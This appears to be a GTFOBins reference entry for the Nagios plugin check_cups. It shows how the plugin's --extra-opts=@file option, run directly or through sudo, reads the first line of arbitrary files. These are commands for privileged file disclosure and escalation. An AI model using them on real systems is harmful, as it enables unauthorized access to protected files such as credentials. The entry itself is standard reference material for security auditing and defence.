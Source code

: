 # GTFOBin: check_cups

This is the `check_cups` Nagios plugin, available e.g. in `/usr/lib/nagios/plugins/`. The read file content is limited to the first line.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
check_cups --extra-opts=@$LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo check_cups --extra-opts=@$LFILE
```